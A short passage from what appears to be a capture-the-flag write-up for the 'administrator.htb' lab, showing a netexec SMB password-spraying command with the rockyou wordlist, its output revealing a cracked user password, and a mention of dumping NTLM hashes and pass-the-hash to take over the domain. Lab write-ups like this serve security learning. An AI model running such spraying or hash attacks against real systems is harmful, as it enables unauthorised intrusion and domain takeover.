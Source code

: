 This way we can get a hit on user <mark>Ethan</mark> with a password <mark>limpbizkit</mark>.

{% highlight shell %}
exegol-liemek administrator # netexec smb 10.10.11.42 -u username_list.txt -p /opt/lists/rockyou.txt --continue-on-success --ignore-pw-decoding | grep +
SMB                      10.10.11.42     445    DC               [+] administrator.htb\ethan:limpbizkit
{% endhighlight %}

From there, we can dump <mark>NTLM hashes</mark>, perform a <mark>pass-the-hash (PtH)</mark> attack on <mark>Administrator</mark> and compromise the entire administrator.htb domain. Just like in steps shown above. :)